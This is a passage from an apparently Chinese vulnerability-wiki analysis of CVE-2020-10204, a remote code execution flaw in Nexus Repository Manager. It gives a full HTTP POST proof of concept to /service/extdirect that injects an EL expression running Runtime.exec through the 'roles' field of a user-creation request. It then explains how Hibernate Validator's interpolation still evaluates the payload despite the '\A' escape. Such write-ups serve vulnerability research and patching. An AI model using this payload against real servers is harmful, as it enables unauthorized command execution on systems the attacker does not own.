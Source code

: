 为什么增加了`\A`还不影响表达式的解析呢,这个我后面说,先构造出完整poc

那么我们找一下哪些接口会使用

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId29.png)

可以看到总过有三处,以第一处Roles为例,

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId30.png)

可以找到有多处注解使用的地方,比如说新建用户/更新用户,构造Poc如下

    POST /service/extdirect HTTP/1.1
    Host: 127.0.0.1:8081
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    X-Nexus-UI: true
    NX-ANTI-CSRF-TOKEN: 0.029301195082771514
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 350
    Connection: close
    Referer: http://127.0.0.1:8081/
    Cookie: NX-ANTI-CSRF-TOKEN=0.029301195082771514; NXSESSIONID=7eaf0643-2707-445a-b17d-aedced6db8e5

    {"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}"],"password":"admin"}],"type":"rpc","tid":33}

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId31.png)

以及其他几处注解使用的地方

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId32.png)

还有一个问题为什么增加`\A`不会影响表达式的解析呢?

在`/org/hibernate/validator/hibernate-validator/6.1.0.Final/hibernate-validator-6.1.0.Final.jar!/org/hibernate/validator/messageinterpolation/AbstractMessageInterpolator.class`对传入的字符串进行了两次处理,

原本的字符串为`Missing roles: [$\B{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}]`

然后第一次处理后的结果

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId33.png)

第二次处理后的结果

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId34.png)

最后解析的还是`${xxxx}`这样子。
